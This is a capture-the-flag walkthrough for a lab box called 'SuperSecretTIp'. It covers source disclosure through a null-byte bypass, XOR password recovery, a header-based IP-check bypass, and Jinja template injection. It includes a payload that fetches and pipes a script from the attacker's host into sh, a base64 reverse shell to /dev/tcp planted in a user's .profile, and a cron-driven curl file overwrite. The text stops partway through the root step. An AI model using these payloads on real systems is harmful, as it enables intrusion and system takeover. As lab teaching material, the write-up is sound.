## TL;DR

In this challenge we enumerate and find `/cloud`, which gives us source code of files, and also `/debug`.

We first get the source code from `/cloud` endpoint, bypassing some WAFing there and decrypt the password for `/debug` endpoint.

Then, we exploit `SSTI` in `/debug` to get shell as `ayham`.

We move to use `F30s` user, using cronjob that execute login scripts as user `F30s`. we can modify `.profile` to get code executed and got reverse shell.

We privilege escalate to `root` using cronjob task, we override `/etc/passwd` and add our new user.

Lastly, we need to crack the flag, which was encrypted with `XOR` and secret key.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



We can detect port `22` with ssh, and port `7777` with Werkzeug simple web server 
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:b8:18:ef:45:a8:df:59:bf:11:49:4b:1d:b6:b8:93 (RSA)
|   256 0b:cf:f9:94:06:85:97:f6:bd:cc:33:66:4e:26:ea:27 (ECDSA)
|_  256 60:ce:be:2d:1e:f0:18:00:30:70:ff:a2:66:d7:85:f7 (ED25519)
7777/tcp open  http    Werkzeug httpd 2.3.4 (Python 3.11.0)
|_http-server-header: Werkzeug/2.3.4 Python/3.11.0
|_http-title: Super Secret TIp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We'll add `supersecrettip.thm` to our `/etc/hosts`.

### Crack password for /debug when getting source code using fuzzing /cloud endpoint

Using `ffuf` we can find 2 endpoints, `/cloud` and `/debug`. 
```bash
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ ffuf -u "http://supersecrettip.thm:7777/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://supersecrettip.thm:7777/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cloud                   [Status: 200, Size: 2991, Words: 904, Lines: 80, Duration: 95ms]
debug                   [Status: 200, Size: 1957, Words: 672, Lines: 69, Duration: 100ms]
                        [Status: 200, Size: 5688, Words: 1292, Lines: 141, Duration: 92ms]
```



When going to `/cloud`, we can see this window:



I try to download the files here, but most of them gave me nothing, and those who does exist, are almost empty.

Let's try to bruteforce and find more files to download:
```bash
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ ffuf -u "http://supersecrettip.thm:7777/cloud" -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'download=FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .py -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://supersecrettip.thm:7777/cloud
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : download=FUZZ
 :: Extensions       : .py 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

source.py               [Status: 200, Size: 2898, Words: 529, Lines: 87, Duration: 99ms]
templates.py            [Status: 200, Size: 45, Words: 6, Lines: 4, Duration: 125ms]
```

We can find the file `source.py`.



We can take the file and analyze it:
```bash
curl "http://supersecrettip.thm:7777/cloud" -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'download=source.py' > source.py
```

in this is `source.py`:
```py
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```

Okay, it takes the password from `supersecrettip.txt`, and then encrypting our password and checks whether they are equal:

```py
password = str(open('supersecrettip.txt').readline().strip())

# I am not very eXperienced with encryptiOns, so heRe you go!
encrypted_pass = str(debugpassword.get_encrypted(user_password))
if encrypted_pass != password:
    return render_template("debug.html", error="Wrong password.")
```

We can download `supersecrettip.txt`:
```bash
curl "http://supersecrettip.thm:7777/cloud" -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'download=supersecrettip.txt' > supersecrettip.txt
```



However, we don't know how the function `debugpassword.get_encrypted` is working.

we know it is imported "from .", so the files are found locally. 
```py
import ip # from .
import debugpassword # from .
```

Also, we have the code of the `/cloud` here:
```py
@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")
```

It checks whether this is `source.py`, or the extension is `.txt`. So, theoretically, we can't download `ip.py` and `debugpassword.py`.

Is it? What if we'll give it double extension, with null byte between the two extensions, something like `ip.py%00.txt`.



Well done, let's get those two files:
```bash
curl "http://supersecrettip.thm:7777/cloud" -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'download=ip.py%00.txt' > ip.py
curl "http://supersecrettip.thm:7777/cloud" -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'download=debugpassword.py%00.txt' > debugpassword.py
```

Now, we can analyze them, `ip.py`:
```bash
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```

and `debugpassword.py`:
```py
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
```

okay, so the encryption is basically taking the password we provided, xor it with `ayham`, and then check if it's equals to the secret, to:
```bash
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```

I wrote short script that should decrypt the password 
```py
import pwn

secret = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
key = b'ayham'

def get_encrypted(passwd):
    return pwn.xor(passwd, key)

print(f"secret is: {str(secret)}") 
print(f"key is: {str(key)}") 
print(f"Decrypted password: {get_encrypted(secret).decode()}")
```

And now, let's get the password:
```bash
┌──(.venv)─(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ python3 crack.py
secret is: b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
key is: b'ayham'
Decrypted password: AyhamDeebugg
```



Let's login now with the password `AyhamDeebugg`, and try to execute commands, it works!



### View /debugresult and exploit SSTI to get reverse shell as ayham

We can see this part of code, for `/debugresult` endpoint:
```py
@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")
```

This is the function `checkIP`, from `ip.py`:
```py
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```

We can bypass this, by giving the header `X-Forwarded-For` with ip `127.0.0.1`.

And this is how we can see the results in the `/debugresult`, don't forget to add the cookie for the specific request.



It looks like there is some `SSTI` vulnerability here, let's check it by supplying this. (add double cruel brackets)
```bash
7*7
```

it worked. we got back `49`. 



Okay, now we know it filters these chars `'&;%"`, so let's get payload from [https://swisskyrepo.github.io/PayloadsAllTheThings/](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/#exploit-the-ssti-by-calling-ospopenread), without filters.

I'll use this, it should execute `id`. (add double cruel brackets)
```py
self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()
```



It worked! we got our `RCE`, yay.
Let's use this payload, to get the `revshell.sh` from local machine, and then execute the `penelope` payload inside. (add double cruel brackets)
```py
self.__init__.__globals__.__builtins__.__import__("os").popen("curl http://10.9.2.147:8081/revshell.sh|sh").read()
```



And on local machine:
```bash
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' > revshell.sh
                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ python3 -m http.server 8081
```


and grab `flag1.txt`
```bash
ayham@482cbf2305ae:~$ cat flag1.txt 
THM{LFI_1s_Pr33Ty_Aw3s0Me_1337}
```



### edit .profile to get code executed as F30s when login

I used linpeas using `run peass_ng` in penelope, and find this interesting cronjob tasks



```bash
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```

Okay, this command executing the reading operation. The flag `-c` is to specify command, and the flag `-l` is for executing login scripts, meaning it'll execute `.profile` and other login scripts before executing the command:
```bash
bash -lc 'cat /home/F30s/health_check
```

Okay, this cronjob is being executed under `F30s` user.
When we check in his folder, we can notice `.profile` is writeable by us

```bash
ayham@482cbf2305ae:/home/F30s$ ls -la
total 32
drwxr-xr-x 1 F30s F30s 4096 Jun 24  2023 .
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..
-rw-r--r-- 1 F30s F30s  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 F30s F30s 3526 Mar 27  2022 .bashrc
-rw-r--rw- 1 F30s F30s    0 Nov 19 21:57 .profile
-rw-r--r-- 1 root root   17 May 19  2023 health_check
-rw-r----- 1 F30s F30s   38 May 22  2023 site_check
```

Let's insert the payload from `penelope` for reverse shell into `.profile`.

```bash
echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' >> .profile
```



Now we can just wait for the reverse shell from `F30s`:



### Privilege escalation to root using overriding of /etc/passwd, based on cronjob task

If we'll go back to the cronjob we saw earlier, we can see this:


So, we still have the command `curl -K /home/F30s/site_check` to explore.

```bash
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```

As we can see, this has some url. The flag `-K` specify config for the `curl`.
```bash
F30s@482cbf2305ae:/tmp$ cat ~/site_check 
url = "http://127.0.0.1/health_check"
```

I tried to do this simple test, I made the file `/tmp/readME` with some secret message in it.
Then, I set the output to be `/tmp/writeME`, and put this inside `~/site_check`
```bash
url = "file:///tmp/readME"
output = "/tmp/writeME"
```

As we can see, the cronjob created `writeME`.



You can see the file `writeME` was created by `root`.

```bash
F30s@482cbf2305ae:/tmp$ cat ~/site_check 
url = "file:///tmp/readME"
output = "/tmp/writeME"
F30s@482cbf2305ae:/tmp$ ls -l
total 8
-rw-r--r-- 1 F30s F30s 17 Nov 19 22:15 readME
-rw-r--r-- 1 root root 17 Nov 19 22:19 writeME
```

Now, i want to override `/etc/passwd` with my new `/etc/passwd` :D

First, let's create our password:
```bash
┌──(agonen㉿kali)-[~/thm/SuperSecretTIp]
└─$ openssl passwd elicopter
$1$yYTpDTv9$cBIDssVsxDaepJFGCGtho.
```



Next, we can read the file `/etc/passwd`:
```bash
F30s@482cbf2305ae:/tmp$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
